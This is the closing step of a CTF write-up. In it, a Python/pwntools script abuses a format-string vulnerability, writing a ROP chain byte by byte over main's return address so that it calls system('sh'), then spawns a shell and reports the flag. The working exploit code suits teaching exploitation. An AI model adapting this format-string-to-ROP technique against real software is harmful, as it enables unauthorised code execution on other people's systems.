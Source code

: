 # Step 3: get the shell
Since we now know all addresses, we can write a rop chain in the place of the return address from main and then exit the program normally (triggering our rop chain) to get the shell.
We will write the rop chain in multiple steps, because it is hard to put it all into a single 200-byte long format string.


```python
rop = ROP(libc)
rop.call('system', (next(libc.search(b"sh\0")), ))
chain = rop.chain()

# align stack
count = len(chain) // 8
RET = rop.search(move=0).address
chain = p64(RET) * 3 + chain

def make_write(addr, byte):
    assert addr & ~0xffff == stack_ptr & ~0xffff
    return "".join([
        # set ret to loop
        f"%{0x8e}c%46$hhn",

        # set the write pointer
        f"%{(addr & 0xffff) - 0x8e}c%5$hn",

        # return, because arguments are cached for a single printf call
        "\n",
        # now, the pointer at argument 48 points to the location where we want to write

        # set ret to loop
        f"%{0x8e}c%46$hhn",

        # write byte
        f"%{(byte - 0x8e) % 0x100}c%48$hhn" + "\n",
    ])

main_ret = rbp + 0x28

# performance: send it all in a single send call so we don't need to wait for the server RTT each time
r.send("".join(make_write(main_ret + i, v) for i, v in enumerate(chain)))

r.interactive()
```

With this, we get the shell and can find the flag: `TWCTF{0nc3_5h07,7w1c3_r3wr173!}`
